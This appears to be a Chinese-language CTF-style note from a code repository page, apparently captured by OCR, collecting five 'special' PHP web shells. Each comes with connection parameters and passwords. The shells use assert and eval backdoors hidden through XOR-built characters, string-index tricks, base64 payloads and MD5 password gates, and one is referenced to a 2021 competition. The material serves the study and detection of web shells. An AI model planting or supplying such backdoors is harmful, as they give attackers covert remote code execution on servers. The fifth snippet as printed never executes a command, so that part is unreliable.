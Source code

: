 

## 特殊的shell

shell1：

```
<?php ($_=@$_GET[2]).@$_($_POST[1])?>
```

连接方式：php?2=assert密码是1。

shell2：

```
<?php
$a=chr( 96^5);
$b=chr( 57^79);
$c=chr( 15^110);
$d=chr( 58^86);
$e= '($_REQUEST[C])';
@assert($a.$b.$c.$d.$e);
?>
```

配置为?b=))99(rhC(tseuqeR+lave

shell3：

```
<?php
$sF= "PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n985de9'];if(isset($s22)){eval($s21($s22));}
?>
```

配置填n985de9=QGV2YWwoJF9QT1NUWzBdKTs=
连接密码:0（零）

shell4：MD5木马

```
<?php
if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')
@eval($_POST['cmd']);
?>
```

shell5：MD5木马+利用header
2021ISCC河南赛区线下赛就是这种shell，当时差点没看出来

```
<?php
echo 'hello';
if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')
if (@$_SERVER['HTTP_USER_AGENT'] == 'flag'){
$test= 'flag';
header("flag:$test");
}
?>
```
